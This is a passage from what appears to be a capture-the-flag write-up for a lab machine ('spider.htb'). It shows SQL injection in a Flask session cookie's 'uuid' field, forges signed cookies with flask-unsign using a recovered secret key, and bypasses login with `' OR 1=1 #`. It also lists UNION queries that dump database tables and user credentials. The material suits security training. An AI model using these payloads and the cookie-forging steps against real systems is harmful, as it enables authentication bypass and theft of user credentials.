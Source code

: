 ## SQLi in auth token

While testing token parameters found sql injection in `uuid` parameter

**Payload:** `' OR 1=1 #` in `UUID` field

Token generate with found secret key with `flask-unsign` tool
```bash
❯ flask-unsign --sign --cookie "{'cart_items': [], 'uuid': '\' or 1=1 #'}" --secret 'Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942'
eyJjYXJ0X2l0ZW1zIjpbXSwidXVpZCI6Iicgb3IgMT0xICMifQ.YMuViQ.0ua4DgajELzCT9u7cIDzw9cTpGE

❯ curl -s 'http://spider.htb/' -b 'session=eyJjYXJ0X2l0ZW1zIjpbXSwidXVpZCI6Iicgb3IgMT0xICMifQ.YMuViQ.0ua4DgajELzCT9u7cIDzw9cTpGE' | grep Logout | grep -o -P '(?=\().*(?<=\))'
(logged in as chiv)
```

`uuid` is a authenticated user identifier and injecting "True" statement bypass authentication.

Testing for UNION based sql injection

![](screenshots/sql-injection.png)

Exracting data from database
```sql
--get current database name
UNION SELECT database()
--extract tables from current db
UNION SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema='shop'
--dump all colums from table
UNION SELECT group_concat(column_name) from information_schema.columns where table_name ='users'
--dump colum content
UNION SELECT group_concat(uuid,':',name,':',password) from shop.users
```

![](screenshots/user-creds.png)


Login with user chiv's uuid and password get admin panel
